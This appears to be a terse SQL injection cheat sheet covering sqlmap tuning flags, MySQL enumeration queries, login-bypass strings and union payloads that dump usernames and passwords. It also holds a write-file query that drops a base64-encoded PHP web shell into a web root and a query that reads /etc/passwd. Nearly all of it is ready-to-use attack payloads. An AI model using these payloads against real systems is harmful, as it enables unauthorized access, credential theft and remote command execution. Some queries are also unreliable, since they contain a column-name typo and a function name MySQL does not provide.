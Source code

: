 # SQLi
 - [payload all the things](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

## SQLMap
### Tips
- Copy the request as cURL in the devtools and change curl to sqlmap
- Save burp requests to text files and load them in sqlmap with `sqlmap -r request.txt`
### Don't ask for user input
```bash
sqlmap ... --batch
```
### Send traffic through proxy
```bash
sqlmap ... --proxy http://127.0.0.1:8080
```
### Save traffic to file
```bash
sqlmap ... -t ./out.txt
```
### Verbosity
#### Show errors
```bash
sqlmap ... --parse-errors
```
#### Verbose output
```bash
sqlmap ... -v 3
```
### Tuning
```bash
sqlmap ... --level=5 --risk=3
```
```bash
sqlmap ... --union-cols=6 --union-char='A'
```
```bash
sqlmap ... --prefix="\`)" --suffix="-- +" 
```

## Mysql
- [payload all the things mysql](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md)
### Fingerprint
```sql
select @@version
select sleep(3)
```
#### Enum dbs
```sql
select schema_name from information_schema.schemata
```
#### Enum tables
```sql
select table_name,table_schame from information_schema.tables where table_schema='zzz'
```
#### Enum columns
```sql
select column_name,table_name from information_schema.columns where table_name='zzz' and table_schema='zzz'
```
#### Enum current user
```sql
select user();
```
#### Enum current user privileges
```sql
select grantee,privilege_type FROM information_schema.user_privileges WHERE grantee="'<user>'@'<host>'"
```
#### Enum current user write file
Check if value is empty for access, whereas NULL means no access.
```sql
select variable_name,variable_value from information_schema.global_variables where variable_name='secure_file_priv'
```
### Read file
```sql
select readfile('/etc/passwd')
```
### Write file
```sql
select from_base64("PD9waHAgc3lzdGVtKCRfUkVRVUVTVFswXSk7ID8+") into outfile '/var/www/html/pwn.php'
```
### Login bypass
```sql
' OR '1
' OR 1 -- -
" OR "" = "
" OR 1 = 1 -- -
'='
'LIKE'
'=0--+
```
### Some union injection examples
```sql
' union select 1,username,password,4,5,6 from db1.users;-- -
```
```sql
' union select 1,user(),3,4,5,6;-- -
```
```sql
' union select 1,sleep(3),3,4,5,6;-- -
```
```sql
' union select 1,readfile("/etc/passwd"),3,4,5,6;-- -
```
